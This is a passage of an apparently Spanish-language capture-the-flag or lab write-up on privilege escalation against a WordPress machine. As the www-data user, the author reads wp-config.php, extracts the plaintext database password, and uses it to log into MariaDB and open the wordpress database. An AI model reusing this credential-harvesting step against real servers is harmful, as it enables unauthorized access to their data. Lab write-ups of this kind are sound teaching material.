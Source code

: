 ### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Revisando este archivo **wp-config.php** tenemos lo siguiente:
```php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpress' );

/** Database password */
define( 'DB_PASSWORD', 'lolalolitalola' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Nos conectamos a la base de datos:
```bash
mysql -h localhost -u wordpress -p
Enter password: lolalolitalola
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 250971
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12
```

Una ves conectados enumeramos las bases de datos:
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
```

Cambiamos de base de datos:
```bash
MariaDB [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```
